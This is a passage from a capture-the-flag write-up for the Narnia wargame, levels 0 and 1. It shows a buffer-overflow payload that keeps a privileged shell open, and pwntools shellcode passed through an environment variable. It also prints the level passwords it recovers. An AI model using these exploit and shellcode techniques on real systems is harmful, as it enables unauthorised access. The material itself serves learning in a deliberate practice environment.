 ```bash
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
narnia0@gibson:/narnia$ whoami
narnia0
```
Okiedokie, the binary exploitation worked. But when using whoami, we are still narnia0. So how can we keep the binary running and keep the shell open?
```bash
narnia0@gibson:/narnia$ (echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\x00\x00\x00\x
00"; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
WDcYUTG5ul
```
The reason why this keeps the shell open is due to cat reading from stdin and forwards it and since it's piped into ./narnia0, it acts like a keyboard.

# Level 1

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
Looking at the code we need to change the env "EGG" into something for the program to execute it. We can create this payload with pwntools again.
```bash
narnia1@gibson:/narnia$ python3
Python 3.12.3 (main, Feb  4 2025, 14:48:35) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print(asm(shellcraft.cat('/etc/narnia_pass/narnia2')))
b'j\x01\xfe\x0c$hnia2h/narhpasshnia_h/narh/etc\x89\xe31\xc9j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
>>>
narnia1@gibson:/narnia$ export EGG=$'j\x01\xfe\x0c$hnia2h/narhpasshnia_h/narh/etc\x89\xe31\xc9j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80' 
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
5agRAXeBdG
Segmentation fault (core dumped)
```
Due to the segmentation fault, we can't try to get a shell using the egg env and setting it to /bin/bash -i. Due to this we have to directly get the password using the cat command and catting the etc password file. As you can see in the code block.
